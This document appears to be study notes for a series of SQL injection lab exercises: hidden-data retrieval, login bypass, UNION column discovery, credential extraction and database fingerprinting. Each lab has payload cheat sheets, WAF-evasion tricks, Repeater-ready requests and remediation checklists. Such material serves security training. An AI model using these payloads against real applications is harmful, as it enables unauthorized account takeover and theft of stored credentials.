# SQL Injection Lab-1 — Retrieving Hidden Data 

---

## 🔹 One-line summary
In-band SQL injection (WHERE-clause manipulation): inject into a filter parameter to neutralize AND released = 1 (or force the WHERE to true) and reveal unreleased/hidden products.

---

## 🔹 What is this issue?
SQL injection (SQLi) occurs when untrusted input is concatenated into SQL queries. By injecting SQL metacharacters or logic (e.g. ' OR 1=1 --) an attacker can change the query semantics and return rows the application intended to hide.

---

## 🔹 Why this matters (real-world risk)
- Exposes sensitive or unreleased data (products, user records).  
- Can escalate to data modification, account takeover, or RCE depending on DB features and privileges.  
- Often allows enumeration of database structure, union-based data extraction, or blind/time-based exfiltration.

---

## 🔹 High-value places to test
- Filter / search endpoints: /filter?category=..., /search?q=...  
- Item lookups: /product?id=..., /item?id=...  
- Sorting / pagination params: order, limit, page  
- Admin exports / downloads: /export?table=...  
- JSON APIs: values in POST/PUT JSON bodies that end up in SQL strings

---

## 🔹 Quick reconnaissance / how to spot it
1. Submit a single quote ' and look for DB errors or unusual responses.  
2. Try boolean tests: OR 1=1 vs OR 1=2 and compare content/length.  
3. Inspect JS and links for parameters that map to DB-driven pages.  
4. Watch for subtle clues: extra rows, changed pagination, different content-length, timing differences.

---

## 🔹 Lab walkthrough — compact (exact steps)
1. Open Burp Proxy and capture a normal category request (e.g., click *Techgifts*).  
2. Right-click captured request → *Send to Repeater*.  
3. Modify category parameter to neutralize the released filter, for example:

GET /filter?category=Techgifts'+OR+1=1-- HTTP/2
Host: <lab-host>
...

4. Send the modified request in Repeater and inspect the response — unreleased products should now be visible.
5. Save raw request/response as PoC and take a screenshot.
*Lab solved.*

---

## 🔹 Proof (evidence)

  
(Screenshot 1: modified request showing payload CorporateGifts' OR 1=1-- in the URL/params.)

  
(Screenshot 2: page showing unreleased products / PoC that the injection returned additional items.)

---

## 🔹 PoC / Repeater-ready example 

GET /filter?category=Techgifts'+OR+1=1-- HTTP/1.1
Host: <LAB_HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

---

*If the parameter is numeric, use:*  
id=1' OR 1=1-- (or id=1 OR 1=1 depending on context).

*URL-encode payloads when sending via browser* (e.g., '%20OR%201%3D1--).

---

## 🔹 Common payloads & quick cheats

- *Comment out rest:* '+-- or '+OR+1=1--  
- *Force true:* ' OR '1'='1'--  
- *Numeric id injection:* 1' OR 1=1--  
- *Time-based (MySQL):* ' OR SLEEP(5)--  
- *UNION discovery:* try ORDER BY then UNION SELECT NULL,version(),NULL-- (only if visible output)

*Always adapt comment style to the DB (--, #, /* ... */).*

---

## 🔹 Troubleshooting

- *No visible change:* try URL-encoding, use POST/JSON variants, or test different params.  
- *WAF interference:* attempt simple obfuscation (e.g., UN/**/ION) or minimal payloads.  
- *No output:* use blind techniques (time-based or OOB) *with permission*.

---

## 🔹 Fixes / remediation 

- Use *parameterized queries / prepared statements* (no string concatenation).  
- Enforce strict *whitelist validation* for known values (e.g., allowed categories).  
- Hide verbose DB errors from users; log them internally.  
- Use *least-privilege DB accounts* and separate read-only roles where possible.  
- Add monitoring / WAF as defense-in-depth (not a replacement).

---

## 🔹 Pentest checklist 

- Identify inputs reaching DB (GET/POST/JSON/headers/cookies).  
- Test ' for errors.  
- Try boolean tests: OR 1=1-- / OR 1=2--.  
- If data returned, attempt UNION/ORDER BY to enumerate columns.  
- If hidden, try time-based or OOB techniques.  
- Save PoC: raw request + response + screenshot.

---

# SQL Injection Lab-2 — Subverting Application Logic (Login Bypass) — Notes 

Lab type: in-band SQLi (authentication bypass via WHERE-clause manipulation / comment-out).

---

## 🔹 1. What is this issue?

A SQL injection in an authentication query lets an attacker manipulate the WHERE clause so the password check is never applied. By injecting a comment (e.g. --) or an always-true expression into the *username* field, the attacker can cause the query to return the target user row and the app treats them as authenticated — no password required.

---

## 🔹 2. Why this matters (real-world risk)

- Immediate account takeover (often admin).  
- Full application compromise if the account has high privileges.  
- Simple and frequently present in legacy code that concatenates inputs into SQL.  
- Easy to chain with further attacks (data exfiltration, privilege escalation, persistence).

Impact example: login as administrator → delete users / change configs / exfiltrate data.

---

## 🔹 3. High-value places to test (quick)

- Login endpoints: POST /login, /auth, /session.  
- Any endpoint that constructs SQL from user-controlled fields w/o parameterization.  
- API endpoints accepting username, userId, email in JSON or form data.

---

## 🔹 4. How to find it quickly

- Submit a single quote ' in the username and watch for errors or different behaviour.  
- Try common auth-bypass payloads in the username field:

  - administrator'--  
  - administrator' OR '1'='1  
  - admin'/*  (DB/comment dependent)

- Observe redirects, status codes, response bodies — successful injection often returns admin pages or different Location headers.

---

## 🔹 5. Lab walkthrough — compact (exact steps)

1. *Capture a baseline login request*  
   - Proxy *ON*; perform a normal login to capture POST /login (username/password).  
   - In Burp → *Proxy → HTTP history* find the POST /login and *Send to Repeater*.

2. *Send to Repeater and prepare PoC*  
   - In Repeater edit the request body (or form fields).  
   - Replace username= value with the SQL comment payload, for example:  
     
     username=administrator'--&password=anything
     

3. *Leave password blank or unchanged*  
   - You may set password= to an arbitrary value or leave it empty — the injection should remove the password check.

4. *Send the modified request*  
   - Click *Send* in Repeater and inspect raw response headers. Look for a redirect such as:
     
     HTTP/1.1 302 Found
     Location: /my-account?id=administrator
     

5. *Follow the redirect / verify in browser*  
   - Replay cookies / session in browser or follow the redirect in Repeater. If you see admin UI / account page you are authenticated as the target user. Lab solved.
     
---

## 🧾 Proof / Evidence

1. *Screenshot — PoC Repeater request/response (injected login POST)*  
   ../images/sqli-login-bypass-post.png  
   Description: Repeater request showing the modified POST /login (payload username=administrator'--) and the response headers (302 Location: /my-account?id=administrator).  
   

---

## 🔹 6. Repeater / PoC templates 

*Form-encoded login bypass (example)*

POST /login HTTP/1.1 Host: <LAB_HOST> Content-Type: application/x-www-form-urlencoded Cookie: session=<YOUR_SESSION>

username=administrator'--&password=anything

*GET-style (if login via querystring)*

GET /login?username=administrator'--&password=anything HTTP/1.1 Host: <LAB_HOST>

(Adjust method/headers to match the app. URL-encode when pasting into browser.)

---

## 🔹 7. Common payloads 

- administrator'--  (comment-out rest)  
- administrator' OR '1'='1'--  
- ' OR '1'='1'--  (may log in as first user returned)  
- admin'/*  (DB-specific comment forms)  
- Numeric ids: 1 OR 1=1--

Always adapt to DB comment style and context (string vs numeric).

---

## 🔹 8. Troubleshooting

- No redirect/visible change → try alternate comment styles (--, #, /* */) and URL-encode special chars.  
- WAF blocks simple payloads → try minor obfuscation (e.g., OR/**/1=1).  
- If query expects numeric id → remove quotes and use numeric payloads.  
- Use Repeater to inspect raw responses (redirects, cookies) rather than relying only on browser UI.

---

## 🔹 9. Fixes / remediation (what to recommend)

- Use parameterized queries / prepared statements for all DB access (no string concatenation).  
- Use ORM safe-query mechanisms; never interpolate untrusted input.  
- Return generic login error messages — avoid revealing whether username exists.  
- Apply WAF/input validation as defense-in-depth (not a substitute for parameterized queries).  
- Review & sanitize legacy auth code paths; add automated tests to detect auth bypass via injection.

---

## 🔹 10. Pentest checklist 

- Affected endpoint & method: POST /login.  
- Vulnerable parameter: username.  
- Exact PoC request & raw response showing redirect to /my-account?id=administrator.  
- Evidence: screenshot of admin page after bypass.  
- Impact: authentication bypass → admin takeover.  
- Remediation summary: parameterized queries + hardening.

---

# SQL Injection Lab-3 — Retrieving Hidden Data 

---

## 🔹 One-line summary
SQL injection lets attacker-controlled input alter a query (WHERE/UNION) so it returns rows it normally wouldn’t — e.g., unreleased products, user data, or internal information.

---

## 🔹 What is this topic? (short)
SQL injection (SQLi) occurs when untrusted input is concatenated into SQL. In the “retrieving hidden data” lab we neutralize filters (e.g., AND released = 1) or use UNION SELECT to extract hidden rows from the database.

---

## 🔹 Why this matters (real-world risk)
- *Data disclosure:* sensitive rows (users, configs, secrets) can be read.  
- *Business impact:* leak of unreleased products or internal data.  
- *Pivoting:* DB contents often reveal creds, hostnames or queries to internal services → further compromise.

---

## 🔹 High-value injection targets
- Filter/search params: /filter?category=..., /search?q=...  
- ID/item params: /product?id=..., /item?id=...  
- Sort/pagination: order, limit, page  
- JSON body fields in APIs: {"category":"..."}  
- Export endpoints: /export?table=...

---

## 🔹 Quick concept checklist
- Test a single-quote ' for errors.  
- Boolean tests: OR 1=1 vs OR 1=2.  
- Use comments to truncate remainder (--, #, /* */).  
- Count columns with UNION SELECT NULL,....  
- Use UNION SELECT 'MKR1','MKR2',... to find a reflected column.  
- If no direct output: use blind (time) or OOB (DNS/HTTP) techniques.

---

## 🔹 Lab walkthrough — exact steps 

1. *Capture baseline request*  
   - Proxy *ON* → click the category/filter in the app. Copy the captured GET /filter?category=... to *Repeater*.

2. *Sanity test*  
   - Edit parameter: add a single-quote (e.g. category=Gifts') and *Send*. Look for DB errors or page changes.

3. *Count columns (UNION-NULL method)*  
   - Try:
     
     GET /filter?category=Gifts' UNION SELECT NULL-- 
     
     If an error occurs, increase NULL count:
     
     GET /filter?category=Gifts' UNION SELECT NULL,NULL-- 
     GET /filter?category=Gifts' UNION SELECT NULL,NULL,NULL-- 
     
     Continue until the server returns an altered/normal response — that NULL count = number of columns.

4. *Find a reflected column*  
   - With the correct column count inject markers:
     
     GET /filter?category=Gifts' UNION SELECT 'MKR1','MKR2','MKR3'-- 
     
     (adjust number of MKR values to match column count). *Send* and inspect the raw response / page source for MKR1/MKR2/MKR3 — the one you see is the reflected column.

5. *Extract data using the reflected column*  
   - Replace the marker in the reflected column with useful functions:
     
     GET /filter?category=Gifts' UNION SELECT NULL,version(),NULL--        (if column2 reflected)
     GET /filter?category=Gifts' UNION SELECT NULL,group_concat(table_name SEPARATOR 0x3a),NULL FROM information_schema.tables WHERE table_schema=database()--
     GET /filter?category=Gifts' UNION SELECT NULL,group_concat(concat(username,0x3a,password) SEPARATOR 0x0a),NULL FROM users--
     
     Adjust queries to the DB (MySQL examples above). *Send* and capture the response showing extracted rows.

6. *Save PoC*  
   - Save the exact raw request(s) and response(s). Take a screenshot of Repeater showing the payload and the page/body with extracted data.

---

## 🧾 Proof / Evidence

1. *Screenshot — PoC request/response (columns matched)*  
  
   Description: Repeater request showing the injected UNION SELECT NULL,... payload and the response containing unreleased/hidden data (used to confirm correct column count and the reflected column).

---

## 🔹 PoC / Repeater-ready example 

http
GET /filter?category=Gifts' UNION SELECT NULL,NULL,NULL-- HTTP/1.1
Host: <LAB_HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

When columns = 3 and column 2 is reflected:

GET /filter?category=Gifts' UNION SELECT NULL,group_concat(concat(username,0x3a,password) SEPARATOR 0x0a),NULL FROM users-- HTTP/1.1
Host: <LAB_HOST>
...

> URL-encode payloads when pasting into a browser (e.g. ' → %27, spaces → %20, -- → %2D%2D) if needed

---

## 🔹 Common payloads & quick cheats

- *Comment out rest:*  
  `' + --` or `' + OR + 1=1 --`

- *Force true:*  
  `' OR '1'='1'--`

- *Numeric id injection:*  
  `1' OR 1=1--`

- *Time-based (MySQL):*  
  `' OR SLEEP(5)--`

- *Count columns:*  
  `UNION SELECT NULL, NULL, ... --`

- *Marker test (find reflected column):*  
  `UNION SELECT 'MKR1','MKR2',... --`

> *Note:* Always adapt comment style and payload syntax to the target DB and context (--, #, /* ... */).

---

## 🔹 Troubleshooting

- *500 / syntax errors when NULL count is wrong* → increase/decrease NULL count until the server stops returning a syntax error.  
- *No visible marker* → check raw HTML, element attributes, inline scripts, and comments (the marker may be reflected in non-visible locations).  
- *Type mismatch errors* → use NULL for non-reflected columns or CAST(... AS CHAR) for type conversion.  
- *WAF blocking UNION* → try simple obfuscation (e.g., UN/**/ION) or use ORDER BY column-counting to discover number of columns.  
- *Large results truncated* → extract in smaller chunks using LIMIT/OFFSET or SUBSTRING().

---

## 🔹 Fixes / remediation (what to report)

- Use *parameterized queries / prepared statements* (never concatenate user input into SQL).  
- Enforce strict *whitelists* for expected values (categories, IDs).  
- Remove verbose DB errors from public responses; log them internally.  
- Apply *least-privilege* principles to DB accounts (no FILE/xp_cmdshell for web app user).  
- Output-encode DB-derived content and monitor for suspicious query patterns.

---

## 🔹 Pentest checklist 

1. Capture request → baseline.  
2. Test a single-quote ' → see if errors appear.  
3. Count columns using UNION SELECT NULL,....  
4. Find reflected column with UNION SELECT 'MKR1',....  
5. Extract data via group_concat / concat (or equivalent).  
6. Save raw PoC request + response and take screenshots.  
7. Recommend parameterized queries and whitelisting in the report.

---

# SQL Injection Lab-4 — Finding Columns Compatible with String Data — Notes 

---

## 🔹 One-line summary
Find the number of columns returned by a vulnerable query (UNION NULL counting) and determine which column(s) accept string data — once you know a string-compatible column you can inject textual payloads (version(), group_concat(), concat(...)) to extract schema and rows.

---

## 🔹 1. What is this topic? (short)
Determine which columns returned by a vulnerable query can hold string data. Knowing the column count *and* which column(s) accept strings is the stepping-stone from "I can inject" → "I can exfiltrate data" via UNION SELECT attacks.

---

## 🔹 2. Why this matters (real-world risk)
- String-compatible columns let you return arbitrary textual payloads (function outputs, concatenated columns, credentials).  
- Once one column reflects attacker-controlled text, you can extract DB metadata, table/column names, and rows.  
- Fast pivot to credential dumps, business-data leaks, and further exploitation (e.g., internal hostnames → SSRF).

---

## 🔹 3. High-value targets / parameters to test
- Category / filter / search parameters (e.g. /filter?category=..., /search?q=...)  
- Item identifiers (/item?id=..., /product?id=...)  
- Sort / order / pagination params (order, page, limit, offset)  
- JSON API fields (POST bodies) that end up in SELECT outputs

---

## 🔹 4. Quick concept checklist
- *Count columns:* UNION SELECT NULL,... until the response no longer errors.  
- *Test string-compatibility:* replace one NULL with a short unique token (e.g. XYZ123) per column.  
- *Conversion error = not string-compatible.* Normal response + token visible = column usable.  
- If blocked, try casting, CHAR()/chr() building, or obfuscation.

---

## 🔹 5. Lab walkthrough — exact steps 

1. *Capture baseline request*  
   - Proxy *ON* → click the category/filter in the app. Right-click the captured request → *Send to Repeater*.

2. *Determine column count (N)*  
   - In Repeater, append payloads (increase NULL count) until the DB error disappears. Example sequence:
     
     ' UNION SELECT NULL-- 
     ' UNION SELECT NULL,NULL-- 
     ' UNION SELECT NULL,NULL,NULL-- 
     
   - The first NULL count that returns a normal page = *N* columns.

3. *Get the lab token*  
   - Note the string the lab asks you to make appear (or pick a short unique token for testing), e.g. XYZ123.

4. *Test each column for string-compatibility*  
   - Replace one NULL at a time with the token. If N = 3 and token = XYZ123, try:
     
     ' UNION SELECT 'XYZ123',NULL,NULL--      (col1)
     ' UNION SELECT NULL,'XYZ123',NULL--      (col2)
     ' UNION SELECT NULL,NULL,'XYZ123'--      (col3)
     
   - Send each request and inspect the *raw HTTP response* (page source). Look for XYZ123.

5. *Handle conversion errors*  
   - If a request produces a DB conversion error (500 or explicit DB error), that column is *not* string-compatible. Skip it.

6. *When the token appears*  
   - If the token is visible and the response is normal → column is string-compatible → save the request as PoC. Lab solved.

7. *Next steps (after discovery)*  
   - Use the discovered column to inject version(), group_concat(...) or table/column enumeration payloads and extract data.

---

## 🧾 Proof / Evidence

1. *Screenshot 1 — Column count (NULLs)*  
  
   Description: Repeater request showing the UNION SELECT NULL,... sequence used to determine the correct column count *N* (response shows no DB error).

2. *Screenshot 2 — Token matched in column*  
    
   Description: Repeater request/response showing the test UNION SELECT where the token (XYZ123) appears in the rendered response (proof that the column accepts string data).

---

## 🔹 6. Exact PoC template 
Replace <HOST>, Techgifts, XYZ123, and adjust NULL count to N:

http
GET /filter?category=Techgifts' UNION SELECT NULL,'XYZ123',NULL-- HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

## 🔹 7. Troubleshooting — common issues & fixes

- *No visible token but length changed:* view raw HTML source; token may be in attributes, script blocks, or comments.
- *Conversion error (varchar ↔ int):* that column is numeric-only — try CAST(... AS CHAR) or skip that column.
- *WAF / filters:* obfuscate UNION (UN/**/ION) or build the token via CHAR() / concat(char(...)).
- *Token escaped/encoded:* check for HTML entities, hex, or URL-encoding — decode before matching.
- *UNION blocked:* use ORDER BY to count columns (classic technique) or fall back to blind/OOB extraction.

---

## 🔹 8. Real-world attack scenarios (concise)

- Use discovered string column to UNION SELECT version(), database(), user() to fingerprint DB.
- UNION SELECT group_concat(concat(username,':',password) SEPARATOR 0x0a) ... FROM users to dump credentials (watch length limits).
- If results truncate, paginate with LIMIT/OFFSET or extract with substring() in chunks.

---

## 🔹 9. Reporting checklist (what to include)

- Vulnerable endpoint & parameter.  
- Column count *N* and which column(s) accept strings.  
- Exact PoC request showing token in response.  
- Screenshot / raw response snippet containing token.  
- Impact summary and remediation suggestions.

---

## 🔹 10. Quick remediation checklist

- Use *parameterized queries / prepared statements*.  
- Whitelist expected values (e.g., allowed categories).  
- Remove verbose DB errors from public responses.  
- Use least-privilege DB accounts; monitor unusual query patterns.  
- Rate-limit & alert repeated UNION / ORDER BY probes.

---

## 🔹 Out-of-the-box / advanced strategies (short)

- Build strings via CHAR() / chr() if literal strings fail.  
- Obfuscate UNION or use ORDER BY counting as a fallback.  
- Chunk large fields with substring() + LIMIT/OFFSET.  
- Use information_schema to enumerate tables/columns quickly.

---

# SQL Injection lab-5 — UNION Attacks — Notes 

---

## 🔹 One-line summary
A UNION SQLi appends attacker-controlled SELECT rows to the original query result. When the app reflects results, UNION lets you read database rows (users, creds, API keys) directly in the page response.

---

## 🔹 What is this topic? (short)
A UNION SQL injection allows an attacker to combine an attacker-crafted SELECT with the application’s original query and so return arbitrary rows (from users, information_schema, etc.) in the same page output.

---

## 🔹 Why this matters (real-world risk)
- *Immediate data disclosure:* user tables, password hashes, API keys.  
- *Fast pivot:* offline cracking of hashes → account takeover → lateral movement.  
- UNION is usually the fastest path from “I can inject” → “I can exfiltrate”.

---

## 🔹 High-value endpoints / parameters to test
- Category / filter / search endpoints: /filter?category=..., /search?q=...  
- Item/detail pages: /product?id=..., /item?id=...  
- Sort / pagination: order, page, limit  
- JSON API fields: POST /api/search { "q":"..." }  
- Any param that ends up in a SELECT whose results are rendered.

---

## 🔹 Quick concept checklist
1. Determine number of columns *N* (UNION SELECT NULL,...).  
2. Find which column(s) accept string data by injecting a short token into each column.  
3. Use UNION SELECT username, password FROM users (or group_concat() if needed) to exfiltrate.  
4. If UNION is blocked → obfuscate, cast, or switch to blind/OOB techniques.

---

## 🔹 Lab walkthrough — exact methodology 

1. *Capture the request*  
   - Proxy *ON* → perform the action that shows results (click category/filter).  
   - Right-click the captured request → *Send to Repeater*.

2. *Find number of columns (N)*  
   - Send these (increment `NULL`s until the page returns normally):  
     
     ' UNION SELECT NULL--  
     ' UNION SELECT NULL,NULL--  
     ' UNION SELECT NULL,NULL,NULL--  
       
   - The NULL count that returns a normal page (no SQL error) = *N*.

3. *Find string-compatible column(s)*  
   - For N columns, test each column with a unique token (replace one NULL at a time):  
     
     ' UNION SELECT 'TOK',NULL,NULL--     (if N=3, test col1)
     ' UNION SELECT NULL,'TOK',NULL--     (test col2)
     ' UNION SELECT NULL,NULL,'TOK'--     (test col3)
       
   - Inspect *raw* response for TOK. The column that displays it is string-compatible.

4. *Exfiltrate the users table*  
   - If two string columns exist:
     
     ' UNION SELECT username, password FROM users--
       
   - If only one string column: concatenate rows into one field (MySQL example):
     
     ' UNION SELECT NULL,group_concat(concat(username,':',password) SEPARATOR 0x0a) FROM users--
       
   - Adjust NULL positions so the reflected column holds the extracted data.

5. *Read results & act*  
   - Inspect raw response for username:password pairs. Use discovered admin creds to log in (only in-scope labs).

6. *Proof & report*  
   - Save the raw request + raw response showing extracted data as PoC (screenshot + raw text).

---

## 🧾 Proof / Evidence

1. *Screenshot 1 — Column count (NULLs)*  
   
   Description: Repeater request showing the UNION SELECT NULL,... probes used to determine the correct column count *N* (response shows no DB error).

2. *Screenshot 2 — String column token match*  
     
   Description: Repeater request/response showing the injected test token (TOK) appearing in the page output — confirms the reflected column supports string data.

3. *Screenshot 3 — Extracted credentials (administrator)*  
     
   Description: Repeater response screenshot showing the extracted administrator credentials (displayed in the page output via UNION injection).

> Place the screenshots in the images/ folder and keep raw requests/responses alongside them for PoC.

---

## 🔹 PoC templates 

*Basic (two string cols)*
GET /filter?category=Techgifts' UNION SELECT username, password FROM users-- HTTP/1.1 Host: example.lab [other headers copied from original request]

*Concat into one column (MySQL; single reflected string column)*
GET /filter?category=Techgifts' UNION SELECT NULL,group_concat(concat(username,':',password) SEPARATOR 0x0a) FROM users-- HTTP/1.1 Host: example.lab ...

---

## 🔹 Troubleshooting & common fixes
- *No visible token but response ok:* view raw body / page source — token may be in attributes, scripts, comments.  
- *Conversion errors (500):* that column is numeric-only — try other columns or CAST(... AS CHAR).  
- *UNION blocked by WAF:* obfuscate (UN/**/ION), try ORDER BY counting, or use blind/OOB.  
- *Results truncated:* use LIMIT/OFFSET or chunk with substring() or smaller group_concat pieces.  
- *DB-specific syntax:* fingerprint DB and adapt (comment style, aggregate functions).

---

## 🔹 Reporting checklist (what to include)
- Affected endpoint & parameter.  
- Column count *N* and which column(s) accept strings.  
- Exact PoC request(s) + raw response showing the data.  
- Impact (accounts, sensitive data).  
- Short reproduction steps (3–5 lines).  
- Fixes: parameterized queries, whitelists, least privilege, hide DB errors.

---

## 🔹 Quick remediation checklist
- Use parameterized queries / prepared statements.  
- Avoid dynamic SQL built by concatenation.  
- Whitelist allowed values.  
- Limit DB account privileges.  
- Hide DB errors; log suspicious SQL patterns.

---

## 🔹 Pocket memory cue
*Count NULL`s → token per column → token visible = dump column → `UNION dump users (or group_concat).*

---

## 🔹 Out-of-the-box / advanced 
- *Fingerprint DB:* UNION SELECT version() (MySQL/Postgres/MSSQL variations).  
- *Metadata:* query information_schema.tables / information_schema.columns.  
- *Chunking:* LIMIT/OFFSET, substring() to extract long fields in pieces.  
- *When UNION blocked:* use error-based, blind/time-based, or OOB (DNS/HTTP) techniques.  
- *Obfuscation:* UN/**/ION, CHAR()-built strings to bypass naive WAFs.  
- *Pivot:* extract DB creds → internal APIs / cloud metadata / RCE (if privileges allow).  
- *Tools:* sqlmap (use with care and throttle).

---

# SQLi Lab-6 — Retrieve multiple values in a single column 

---

🔹 *One-line summary*

When an injection point only reflects one column, concatenate multiple fields (e.g., username~password) into that single reflected column using a UNION injection to exfiltrate multiple values at once.

---

🔹 *1️⃣ Why this matters (impact)*

- Enables credential theft even if only one column is displayed.  
- Leads to fast account takeover or privilege escalation.  
- Useful for real-world web apps where complete rows aren’t reflected.

---

🔹 *2️⃣ High-value endpoints to test*

1. /filter?category=..., /products?category=... — category / listing pages  
2. /search?q=... — search results  
3. Admin or reporting panels displaying DB data  
4. CSV / export or legacy API endpoints  
5. Any parameter that outputs DB-driven content into HTML or JSON

---

🔹 *3️⃣ Quick checklist (what to try)*

1. Inject ' — look for SQL errors.  
2. Find column count → UNION SELECT NULL, ... until valid.  
3. Find string-reflecting column → inject token 'TOK' in each column.  
4. Use concatenation in that column → combine username & password.  
5. For multiple rows → use GROUP_CONCAT() or string_agg().

---

🔹 *4️⃣ Exact step-by-step methodology (PortSwigger lab-style)*

*A — Capture & prepare*

1. Turn *Burp Proxy ON* and capture the request of the results page (category/search).  
2. Send it to *Repeater* for testing.

---

*B — Find number of columns (N)*

Try incrementing NULLs:

' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL--

✅ The NULL count that returns a normal (non-error) page is your correct N.

---

*C — Find which column reflects string data*

Test each column by injecting a token in one column at a time:

' UNION SELECT 'TOK',NULL,NULL-- ' UNION SELECT NULL,'TOK',NULL-- ' UNION SELECT NULL,NULL,'TOK'--

Then check the *response HTML*.  
The column that visibly reflects TOK supports string output.

---

*D — Concatenate username & password (PortSwigger example)*

If reflected column is 2 of 2:

' UNION SELECT NULL, username || '~' || password FROM users--

Then inspect raw HTML for:

administrator~s3cure

➡ Copy credentials and test login.

---

*E — If only one column is reflected (MySQL example)*

' UNION SELECT CONCAT(username,'~',password) FROM users--

---

*F — If many rows are returned (aggregate them)*

MySQL aggregation example:

' UNION SELECT GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR 0x0a) FROM users--

---

# 🧾 Proof / Evidence

1️⃣ *Screenshot — NULL count discovery*  
  
🖼 Description: Shows Repeater request where UNION SELECT NULL,... payload returns a valid page — confirms correct column count (N).

---

2️⃣ *Screenshot — Reflected string column detection*  
  
🖼 Description: Displays visible 'TOK' token in the response after testing each column — identifies which column accepts string data.

---

3️⃣ *Screenshot — Final concatenation result (username~password)*  
 
🖼 Description: Repeater response showing administrator~s3cure after injecting:  
' UNION SELECT CONCAT(username,'~',password) FROM users--  
✅ Confirms successful concatenation-based SQLi and credential extraction.

---

🔹 *5️⃣ PortSwigger concat format*

Use this standard syntax:

username || '~' || password

✅ Works for *PostgreSQL / Oracle* style DBs.

---

🔹 *6️⃣ Concatenation & aggregation — DB syntax cheat sheet*

| DB | Concatenation | Aggregation |
|----|----------------|-------------|
| MySQL / MariaDB | CONCAT(a,'~',b) | GROUP_CONCAT(CONCAT(a,':',b)) |
| PostgreSQL | a || '~' || b | string_agg(a || ':' || b, E'\\n') |
| Oracle | a || '~' || b (may need FROM DUAL) | — |
| MSSQL | a + '~' + b or CONCAT(a,'~',b) | — |
| SQLite | a || '~' || b | — |

---

🔹 *7️⃣ Copy-paste payload templates*

> Replace <HOST> and <CATEGORY>; adjust NULL positions for correct reflected column.

*PortSwigger-style (column 2 of 2):*

GET /filter?category=<CATEGORY>' UNION SELECT NULL, username || '~' || password FROM users-- HTTP/1.1 Host: <HOST>

*MySQL (column 2 of 2):*

GET /filter?category=<CATEGORY>' UNION SELECT NULL, CONCAT(username,'~',password) FROM users-- HTTP/1.1 Host: <HOST>

*Single-column reflected (MySQL):*

GET /filter?category=<CATEGORY>' UNION SELECT CONCAT(username,'~',password)-- HTTP/1.1 Host: <HOST>

*Aggregate multiple rows (MySQL):*

' UNION SELECT NULL, GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR 0x0a) FROM users--

---

🔹 *8️⃣ Troubleshooting (common fixes)*

- ❌ 500 error → wrong NULL count or mismatched column types.  
- ❌ No visible token → view raw HTML, attributes, or JS comments.  
- ❌ Output truncated → use GROUP_CONCAT() or chunked extraction (SUBSTRING, LIMIT, OFFSET).  
- ❌ WAF blocks UNION → obfuscate (UN/**/ION, UNI%0AON) or build strings via CHAR()/CHR().

---

🔹 *9️⃣ Fixes / remediation (for report)*

✅ Use parameterized queries / prepared statements.  
✅ Remove DB error messages from client responses.  
✅ Whitelist inputs (only valid categories, IDs, etc.).  
✅ Limit DB privileges (no FILE / EXEC rights).  
✅ Monitor & alert for UNION / ORDER BY / SLEEP probes.

---

🔹 *🔟 Out-of-the-box / advanced notes*

- Fingerprint DB:  
  ' UNION SELECT @@version-- or version()  
- Use information_schema to discover tables & columns.  
- Split large dumps with LIMIT / OFFSET.  
- Post-dump pivot → look for API keys, admin creds, or internal hosts.  
- Use *sqlmap* only after manual validation.

---

🔹 *Extended concatenation cheat-sheet (extra DBs)*

| DB | Example |
|----|----------|
| DB2 / Informix | username || '~' || password |
| Sybase | username + '~' + password |
| Teradata | username || '~' || password or CONCAT() |
| Presto / Trino | CONCAT(username, '~', password) or || |
| Hive | CONCAT(username, '~', password) |

🧩 Tip: Always verify the concat operator first using small tests like || 'X' ||.

---

🔹 *Pocket cue*

Count NULLs → find reflected column → concat(username~password) → get admin → login.

---

# 🔐 SQL Injection Lab-7 — UNION / Retrieve Data — Notes 

---

## 🔹 1. What is a SQLi UNION attack? (short)

A *UNION SQL Injection* appends results of an attacker-controlled SELECT query to the legitimate query output.  
If the web app *renders DB data in responses*, the attacker can make it display results from other tables (like users, creds, etc.) in the normal page.

✅ Works only if:

- The injected UNION SELECT has *the same number of columns* as the original query.
- The columns are *data type-compatible* (text columns for text, etc.).

---

## 🔹 2. Why this matters (real-world risk)

- 📤 *Data exfiltration:* usernames, passwords, API keys, internal records.  
- 🧩 *DB fingerprinting:* identify DB version to tailor payloads.  
- 💀 *Escalation path:* dump credentials → log in → pivot to full takeover.

---

## 🔹 3. High-value parameters to test

- /filter?category=, /search?q=, /sort=, /id=, /page=
- JSON keys in POST bodies: { "query": "..." }
- Export/CSV endpoints
- Any feature showing lists, tables, or categories on the frontend

---

## 🔹 4. Quick recon checklist

1️⃣ Check if input is quoted → send value' and watch for error/response changes.  
2️⃣ Try comment styles: -- ` (note space), `#, and /*...*/.  
3️⃣ Use UNION SELECT NULL,... to find *column count (N)*.  
4️⃣ Inject 'MAGIC' strings into each column to find *string-compatible* columns.  
5️⃣ Once confirmed, inject version() / @@version to confirm DB type and solve the lab.

---

## 🔹 5. Exact lab methodology 

### 🧩 Step 1 — Capture the target request

GET /filter?category=Gifts HTTP/1.1 Host: <HOST>

→ Send to *Repeater* for manual payload testing.

---

### 🧩 Step 2 — Test quoting & comment syntax

Try:

?category=Gifts'

→ If you get an SQL error (500), parameter is *quoted*.

Now test which comment syntax is accepted:

?category=Gifts'# ?category=Gifts'--%20

✅ In this lab, *# worked* successfully (MySQL).

---

### 🧩 Step 3 — Find column count

Start with:

?category=Gifts' UNION SELECT NULL# ?category=Gifts' UNION SELECT NULL,NULL#

→ The request returning a *normal 200 response* indicates the correct number of columns.  
In this case: ✅ *2 columns*.

---

### 🧩 Step 4 — Identify string-compatible column(s)

Inject marker tokens:

?category=Gifts' UNION SELECT 'MAGIC',NULL# ?category=Gifts' UNION SELECT NULL,'MAGIC'#

→ The one displaying *MAGIC* in the page is the *string column* (e.g., column 1).

---

### 🧩 Step 5 — Retrieve database version

Now replace 'MAGIC' with DB version query:

MySQL  →  ?category=Gifts' UNION SELECT @@version,NULL# Postgres → ?category=Gifts' UNION SELECT version(),NULL# MSSQL  →  ?category=Gifts' UNION SELECT @@VERSION,NULL#

→ The response displaying the version string proves successful UNION-based SQLi.

---

## 🧾 Proof / Evidence

*Screenshot 1 — Confirmed UNION Injection with DB Version*



*Description:*  
Repeater request sequence showing:  
